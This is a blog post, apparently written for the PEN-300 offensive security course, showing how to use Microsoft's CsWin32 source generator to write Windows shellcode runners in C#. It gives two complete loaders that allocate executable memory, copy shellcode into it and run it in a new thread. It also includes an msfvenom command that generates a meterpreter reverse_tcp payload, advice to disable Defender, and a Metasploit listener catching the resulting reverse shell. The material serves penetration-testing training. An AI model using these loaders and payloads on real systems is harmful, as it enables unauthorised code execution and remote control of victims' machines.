







During Offensive Security’s [Pen 300](https://www.offsec.com/courses/pen-300/) course, you’ll get hands-on experience with various techniques for bypassing Windows defenses using C#. These methods often require the use of unmanaged code. I figure C# was chosen not just for its versatility but also because of its tight integration with PowerShell. You’ll frequently see C# code embedded in PowerShell scripts via `Add-Type` throughout the course.

Building tools to bypass Windows Defender and other defenses has traditionally involved **P/Invoke** (`Platform Invoke`), using the `[DllImport]` attribute. For years, [PInvoke.net](https://pinvoke.net/) has been the go-to repository for grabbing the necessary signatures to drop straight into your code.

An example of using P/Invoke with PInvoke.net might look like this:

```csharp
[DllImport("kernel32.dll", SetLastError = true)]
static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
static extern bool VirtualFree(IntPtr lpAddress, uint dwSize, uint dwFreeType);
```

Here, the developer manually imports the functions `VirtualAlloc` and `VirtualFree` from `kernel32.dll`, specifying the calling conventions, marshaling behavior, and error handling. 

I’ve always found `[DllImport]` statements to be a bit of a hassle, especially when PInvoke.net was either down or too slow to grab what I needed. That’s when I discovered the [CsWin32 Project](https://github.com/microsoft/CsWin32), which totally changes the game by automating the generation of Win32 `P/Invoke` signatures at compile time. With CsWin32, copying and pasting from PInvoke.net is replaced by an automatic source generator. CsWin32 generates P/Invoke signatures at compile time based on metadata from Windows SDKs, ensuring that the code is always correct, up-to-date, and optimized for the .NET runtime.

The question was whether or not I could transition my code to CsWin32. There is some burden on the programmer when making this transition due to the Win32 APIs being native to C/C++ of which I know very little. However after some failures, I was able to transition most of my C# code base over to using CsWin32. There are still cases where you’ll need to fall back on PInvoke.net, especially when dealing with `Zw` or `Nt` functions, which are part of the Native API and generally lack proper documentation. Seeing as how Microsoft is driving the CsWin32 project, I'm not sure those will be included and one needs to use the PInvoke.net signatures and/or consider using C/C++ any code required those methods.

Let’s walk through how to use CsWin32 in offensive tooling by building a simple shellcode execution program. We’ll start with the basics: allocating memory, copying the shellcode into it, and spinning up a thread to run the payload. Below is a basic example of an injection attack. Using PInvoke.net signatures the C# code might look like the following:

```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace ConsoleApp1
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        static void Main(string[] args)
        {

            byte[] buf = new byte[511] {<shellcode};
            int size = buf.Length;
            
            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

            Marshal.Copy(buf, 0, addr, size);

            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}
```

There are three of the `[DllImport]` statements, but as the code complexity grows, one can end up with a great many `[DllImport]`, but by using CsWin32, the amount of code that is needed for this simple injection is reduced to something I think looks nicer.

```csharp
using System;
using System.Runtime.InteropServices;
using Windows.Win32;
using Windows.Win32.System.Memory;
using Windows.Win32.Foundation;

namespace ShellCodeRunnerCsWin32
{
    internal class Program
    {

        static unsafe void Main(string[] args)
        {

            byte[] buf = new byte[###] {<shellcode>};

            UIntPtr msize = (UIntPtr)(uint)buf.Length;
            
            void* allocatedMemory = PInvoke.VirtualAlloc(null, msize, VIRTUAL_ALLOCATION_TYPE.MEM_COMMIT, PAGE_PROTECTION_FLAGS.PAGE_EXECUTE_READWRITE);

            Marshal.Copy(buf, 0, (IntPtr)allocatedMemory, buf.Length);

            Windows.Win32.System.Threading.LPTHREAD_START_ROUTINE allocatedMemoryPointer = (Windows.Win32.System.Threading.LPTHREAD_START_ROUTINE)Marshal.GetDelegateForFunctionPointer((IntPtr)allocatedMemory,  typeof(Windows.Win32.System.Threading.LPTHREAD_START_ROUTINE));

             HANDLE h = PInvoke.CreateThread(null, (UIntPtr)0, allocatedMemoryPointer, (void*)0, 0 );
            PInvoke.WaitForSingleObject(h, 0xFFFFFFFF);

        }
    }
}
```

### **Summary of the Code Flow:**
1. **Allocate memory** using `VirtualAlloc` with read/write/execute permissions.
2. **Copy shellcode** (or any code) into that allocated memory using `Marshal.Copy`.
3. **Create a new thread** using `CreateThread` that starts execution at the shellcode's memory location.
4. **Wait for the thread to complete** using `WaitForSingleObject`.

### Getting Started with CsWin32

Admittedly, getting CsWin32 installed requires a fair amount of steps. 

1. Once your C# project is open in Visual Studio, navigate to  `Tools -> NuGet Package Manager -> Manage NuGet Packages for Solutions`.



2. Search for cswin32


3. Install...this will also install dependencies which need to be accepted (SDK.Win32Metadata, WDK.Metadata, and SDK.Win32Docs)
4. From the CsWin32 github page (https://github.com/microsoft/cswin32): "You should also install the `System.Memory` and `System.Runtime.CompilerServices.Unsafe` packages when targeting .NET Framework 4.5+ or .NET Standard 2.0, as these add APIs that significantly improve much of the code generated by CsWin32"
5. Search for `System.Memory` and `System.Runtime.CompilerServices.Unsafe` and install via the GUI or install via the command line:
```cmd
dotnet add package System.Memory
dotnet add package System.Runtime.CompilerServices.Unsafe
```
6.  within the source code layout create a text file named `NativeMethods.txt`
7.  add the Win32 APIs needed to `NativeMethods.txt` and each method will be auto-generated.




8. The APIs can be viewed under Analyzers in the `Solution Explorer`



From here, the arguments for the function calls need to be properly 


### Execution

We can start by creating some shellcode with msfvenom.

```bash
❯ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=eth0 LPORT=9001 -f csharp
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of csharp file: 2623 bytes
byte[] buf = new byte[510] {0xfc,0x48,0x83,0xe4,0xf0,0xe8,
0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,
...
}
```

Then copy the output `byte[] buf = new byte[510] {0xfc,0x48,0x83,0xe4,0xf0,0xe8` and paste into the `Main` method of `Program.cs`. Compile the C# code and navigate in a terminal to where the newly created `.exe` is located.

*Note:* Be sure to turn off Defender or configure Defender to not scan the directory where the `*.exe` is located.



On my Kali Linux VM, I start Metasploit console to await the reverse shell.



...and here it is...




CsWin32 handles the heavy lifting by auto-generating P/Invoke signatures that are always up-to-date. It saves you from manually managing signatures and gives you a streamlined, efficient way to interface between C# and the native Windows APIs.